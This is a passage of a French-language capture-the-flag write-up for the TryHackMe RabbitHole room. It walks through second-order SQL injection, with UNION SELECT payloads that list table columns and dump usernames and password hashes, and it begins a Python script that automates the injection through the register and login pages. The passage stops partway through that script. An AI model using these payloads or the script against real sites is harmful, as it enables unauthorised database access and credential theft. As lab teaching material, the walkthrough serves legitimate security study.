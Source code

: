 ![web database content](/images/THM-RabbitHole/S_SQLi_enum.png)

Nous découvrons deux tables `users` et `logins`, la première semble intéressante.

```
python3 auto_sqli.py IP_ADDRESS '" UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name="users" AND table_schema=DATABASE(); --'
```

![users table fields](/images/THM-RabbitHole/S_SQLi_enum2.png)

Cette table comporte quatre champs : `id`, `username`, `password`, et `group`. Nous allons d'abord vérifier `username` pour voir s'il y a d'autres utilisateurs.

```
python3 auto_sqli.py IP_ADDRESS '" UNION SELECT 1, username FROM web.users; --'
```

![username field content](/images/THM-RabbitHole/username_list.png)

En plus de `admin`, nous trouvons `foo` et `bar`. 

Listons maintenant le contenu de `password`.

```
python3 auto_sqli.py IP_ADDRESS '" UNION SELECT 1, password FROM web.users; --'
```

![incomplete hashes](/images/THM-RabbitHole/S_SQLi_enum3.png)

Nous sommes capables d'extraire les hashs mais il y a une limite de 16 caractères, ce qui donne des hashs incomplets. Afin de surmonter cet obstacle, nous modifions notre script en utilisant `SUBSTRING` pour diviser la requête en deux parties.

```python
import sys
import requests
from bs4 import BeautifulSoup

def create_user(ip, payload):
    url = f"http://{ip}/register.php"
    data = {
        'username': payload,
        'password': 'password',
        'submit': 'Submit Query'
    }
    response = requests.post(url, data=data)
    return response.status_code == 200

def login_user(ip, payload):
    url = f"http://{ip}/login.php"
    data = {
        'username': payload,
        'password': 'password',
        'login': 'Submit Query'
    }
    response = requests.post(url, data=data)
    return response.text

def extract_results(html):
    soup = BeautifulSoup(html, 'html.parser')
    results = []
    
    for td in soup.find_all('td'):
        content = td.get_text().strip()
        # Filter out timestamp entries (they start with year)
        if not content.startswith('202'):  # Assumes timestamps start with 202x
            results.append(content)
```